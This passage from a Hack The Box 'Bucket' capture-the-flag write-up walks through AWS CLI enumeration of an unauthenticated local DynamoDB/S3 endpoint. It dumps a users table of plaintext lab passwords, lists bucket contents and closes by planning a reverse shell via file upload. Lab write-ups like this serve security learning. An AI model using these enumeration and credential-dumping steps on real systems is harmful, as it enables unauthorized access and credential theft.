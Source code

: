 I search "AWS S3 DynamoDB" and find a lot of information on "S3 Buckets", etc.  The web shell looks like it has its own API.  I found [this](https://rhinosecuritylabs.com/penetration-testing/penetration-testing-aws-storage/) online.  To test this exploit, I need the [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/cli-chap-welcome.html) (`sudo apt install awscli`).

To use the AWS CLI, we need to [configure ourselves](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/configure/index.html).  Then we can enumerate the DynamoDB enpoints.  We can use a made-up access key here.

```bash
$ aws configure      
AWS Access Key ID [None]: ct
AWS Secret Access Key [None]: secretkey
Default region name [None]: 
Default output format [None]: text
                                                                                                                                          
$ aws dynamodb list-tables --endpoint-url http://s3.bucket.htb # read the docs to learn more about enumeration with AWS!
TABLENAMES      users

$ aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb
None    3       3
PASSWORD        Management@#1@#
USERNAME        Mgmt
PASSWORD        Welcome123!
USERNAME        Cloudadm
PASSWORD        n2vM-<_K_Q:.Aa2
USERNAME        Sysadm
```

So we have usernames and associated passwords in the `users` table in DynamoDB.  This is great... But where to use them? To find that out, let's try to find out more about the buckets associated with `bucket.htb` through the AWS CLI (our Lord and Saviour):
```bash
$ aws --endpoint-url http://s3.bucket.htb/ s3 ls
2021-03-06 22:17:03 adserver
```

Well, we knew this one existed, as that's where the source code of `bucket.htb` comes from!  But We can enumerate buckets from the `adserver`.  (The images here we saw previously should appear here, as we have discovered from the page source!)
```bash
$ aws --endpoint-url http://s3.bucket.htb/ s3 ls s3://adserver/images/
2021-03-06 22:19:04      37840 bug.jpg
2021-03-06 22:19:04      51485 cloud.png
2021-03-06 22:19:04      16486 malware.png
```

I make a mental note that there are three images (uploaded, possibly, by three different people), and three different password-username combinations from the `users` table...

So, I check the `help` section of AWS CLI, and find that you can actually edit (copy, move, delete) files!  Surely we can do something similar to what we did in Passage and get a reverse shell.  Then we have a foothold!
